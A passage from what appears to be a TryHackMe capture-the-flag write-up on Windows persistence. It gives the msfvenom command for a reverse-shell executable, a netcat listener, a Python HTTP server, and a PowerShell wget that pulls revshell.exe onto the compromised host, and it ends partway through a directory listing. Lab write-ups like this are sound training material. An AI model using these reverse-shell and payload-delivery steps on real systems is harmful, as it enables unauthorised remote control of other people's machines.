 ![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49956 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
11. `C:\flags\flags12.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag12.exe
C:\flags\flag12.exe
THM{I_INSIST_GO_FIRST}
```


**TASK COMPLETED**

# Logon Scripts
1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


```